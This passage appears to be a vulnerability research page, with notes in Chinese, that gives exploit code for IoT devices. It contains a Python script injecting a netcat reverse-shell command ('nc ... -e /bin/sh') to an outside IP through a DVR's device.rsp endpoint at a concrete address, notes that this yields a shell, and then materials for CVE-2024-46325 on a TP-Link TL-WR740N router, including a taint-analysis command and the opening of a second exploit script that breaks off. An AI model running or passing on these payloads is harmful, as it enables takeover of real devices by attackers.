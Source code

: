 ## exp2
```python
import requests
import urllib.parse

dvr_host = "http://78.188.43.252"
mdc_command = "echo;nc 188.127.254.13 55555 -e /bin/sh"

encoded_command = urllib.parse.quote(mdc_command)

url = f"{dvr_host}/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc={encoded_command}"

headers = {
    "Cookie": "uid=1"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

exp1仅作为单独的命令执行
此漏洞可以通过nc命令监听，exp2打通后反弹shell得到权限

# CVE-2024-46325

## 传输命令

tftp

![](image/722430ceb5c70509297fa7afd0a2b830.png)



固件下载地址：[https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware](https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware)
版本：TL-WR740N V6

## SaTC污点分析
```sh
python satc.py -d /home/satc/SaTC/wr740nv6/ -o /home/satc/SaTC/wr740nv6_bug --ghidra_script=ref2sink_cmdi -b httpd --taint_check
```
## exp
```python
import requests
import urllib
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = {
```